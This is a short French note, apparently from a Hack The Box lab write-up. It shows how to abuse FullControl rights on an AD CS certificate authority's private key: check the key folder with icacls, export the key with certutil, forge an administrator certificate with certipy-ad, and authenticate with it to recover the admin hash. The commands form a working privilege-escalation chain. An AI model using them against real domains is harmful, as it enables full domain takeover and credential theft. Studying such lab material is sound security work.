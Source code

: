 
> [!TIP]
> Si accès FullControl sur la clé privé du CA, alors possible d'exporter la clé et de forger des certificats pour n'importe quel user
> 

Private Key dans "C:\ProgramData\Microsoft\Crypto\RSA\MachineKeys\"


Checker les droits sur les clés privés

```
icacls "C:\ProgramData\Microsoft\Crypto\RSA\MachineKeys\"
```

Si (F) , alors exporter la clé avec certutil au format PFX.

```
certutil -exportPFX -p "password" -privatekey "nom_du_CA" ca_key.pfx
```

Forger un certificat pour administrator

```
certipy-ad forge -ca-pfx ca_key.pfx -ca-password "password" -upn administrator@certificate.htb -sid "S-1-5-21-515537669-4223687196-3249690583-500" -subject "CN=ADMINISTRATOR,CN=USERS,DC=CERTIFICATE,DC=HTB" -out administrator.pfx
```

PassTheCert & UnPAC the hash

```
certipy-ad auth -pfx "administrator.pfx" -dc-ip '10.10.11.71' -username 'administrator' -domain 'certificate.htb'
```